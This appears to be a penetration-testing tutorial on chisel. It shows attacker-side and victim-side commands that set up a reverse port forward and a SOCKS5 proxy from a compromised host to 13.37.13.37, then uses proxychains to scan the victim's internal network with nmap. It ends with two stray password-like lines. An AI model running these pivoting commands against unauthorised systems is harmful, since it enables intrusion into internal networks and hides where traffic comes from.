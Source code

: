 soc# Port Forwarding

Port forwarding with `chisel` is quite simple. For example, if you discovered an open MongoDB service running on a remote computer and wanted to forward traffic from a local port to that remote MongoDB service. Here’s how you could achieve that with `chisel` :

## On the Attacking Machine

chisel server -p 3477 --reverse

-   `server`: run the server mode
-   `-p` : port for the server to listen on
-   `--reverse`: allows reverse port forwarding

## On the Victim Machine

chisel client 13.37.13.37:3477 R:2222:127.0.0.1:27017/tcp

-   `client` : run the client mode
-   `13.37.13.37:3477` : the IP address of the attacker’s machine and the port that was specified in the `chisel server` command
-   `R:2222:127.0.0.1:27017/tcp`: the `R` means we want to perform a reverse port forward; `2222` is the port number we want to use to route traffic through on the attacker’s machine; `127.0.0.1:27017` is the IP address/port we want to route our traffic to on the client’s machine; `/tcp` means we want to use the TCP protocol.

The previous commands will allow us to access the MongoDB service running locally on the remote machine on port 2222 on the attacking machine.

Now that we’ve seen how to perform a port forward with `chisel`, let’s create a SOCKS proxy so that we can route all of our traffic with the victim machine.

# SOCKS Proxies

SOCKS proxies capabilities was a recent addition to `chisels` capabilities which I think is awesome. Creating a SOCKS is extremely useful during a pentest, for example, because you can use a tool like Proxychains to route all of the traffic from your attacker tools through the victim’s machine — effectively making it appear as if traffic were originating from the victim’s machine. Here’s how we can set up a SOCKS proxy with `chisel`:

## On the Attack Machine

chisel server -p 3477 --socks5 --reverse


-   `-p`: port for the server to listen on
-   `--socks5`: start an internal SOCKS5 proxy
-   `--reverse`: allows for reverse port forwarding

## On the Victim Machine

chisel client 13.37.13.37:3477 R:5000:socks

-   `13.37.13.37:3477` : the IP address of the attacker machine and the port number specified in the `chisel server` command
-   `R:5000:socks:`the `R` means we want to perform a reverse port forward; `5000` will be the port on the attacker machine that will act as the entry point to our SOCKS5 proxy; and `socks` simply means we are using the SOCKS protocol.

## Proxychains

Configuring Proxychains to use our accessible SOCKS proxy simply requires that we add an entry to the bottom of `/etc/proxychains.conf` under `[ProxyList]` section. We need to specify the IP address and port of the SOCKS proxy we want to route our traffic through. In this case, we want to specify `socks5 127.0.0.1 5000` since our SOCKS proxy is listening on localhost port 5000:

![](https://miro.medium.com/max/700/1*mhBYMO2hZA0ZM5sCgwebLQ.png)

Now we can run the following command on the attacker machine to run Nmap through the victim's machine:

proxychains -q nmap -T4 -sn 10.10.10.0/24

And that’s all you need to know to harness the power of `chisel` — Happy Hacking!

PleaseChangeTheAdminPassword
PleaseChangeTheRootPassword